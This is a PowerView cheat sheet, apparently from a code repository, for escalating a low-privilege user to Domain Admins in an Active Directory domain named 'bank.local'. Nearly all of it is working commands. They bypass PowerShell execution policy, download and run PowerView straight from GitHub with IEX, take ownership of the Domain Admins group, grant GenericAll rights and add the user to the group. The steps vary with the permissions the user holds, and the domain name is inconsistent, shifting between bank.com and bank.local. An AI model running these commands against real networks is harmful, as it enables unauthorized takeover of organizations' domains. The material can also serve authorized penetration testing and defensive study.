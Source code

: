 # Power view cheat sheet

## Commands
## Note: Domain = `bank.local`, User = `goodboy`

```bash
powershell -ep bypass
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"
net group "domain admins" goodboy /add /domain
```

## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

- Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
- Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

- Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))
$group.psbase.CommitChanges()
```
- Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission Why Needed

- Modify owner	
- Modify permissions	
- Write properties	

### 1. with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
Get-Command -Module PowerView
```
- Note: (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)
- Verify if 'bb2' has WriteDACL on Domain Admins
```bash
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights
```
- Add GenericAll permission
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose
```
- Add your account to the group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose
```
- Verify
```bash
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
```

### 2. with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### 3. with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
```
- or download the script and run by import
```bash
powershell -ep bypass
Import-Module .\powerview.ps1
Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl
Set-ExecutionPolicy Bypass -Scope Process -Force
```

- 1.Take ownership
```bash
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose
```
- 2.Grant yourself Generic All
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose
```
- 3.Add to group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```